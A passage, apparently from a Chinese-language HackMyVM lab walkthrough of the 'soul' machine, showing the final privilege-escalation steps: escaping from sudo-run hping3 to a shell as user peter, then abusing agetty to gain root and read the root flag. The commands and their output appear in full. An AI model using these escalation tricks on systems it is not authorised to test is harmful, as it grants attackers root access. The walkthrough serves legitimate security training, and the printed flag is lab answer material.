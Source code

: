 ```bash
gabriel@soul:~$ sudo -u peter /usr/sbin/hping3
hping3> /bin/bash
peter@soul:/home/gabriel$
```
## 7. Peter提权root
获取到了Peter用户权限 那么我们就可以用 `agetty` 提权了
```bash
/peter@soul:/home/gabriel$ /usr/sbin/agetty -o -p -l /bin/sh -a root tty

Debian GNU/Linux 10 soul tty

soul login: root (automatic login)

\[\e]0;\u@\h: \w\a\]\u@\h:\w$
\[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1002(peter) gid=1002(peter) euid=0(root) groups=1002(peter)
\[\e]0;\u@\h: \w\a\]\u@\h:\w$ whoami
root
cat /root/rootflag.txt
HMVohmygod
```
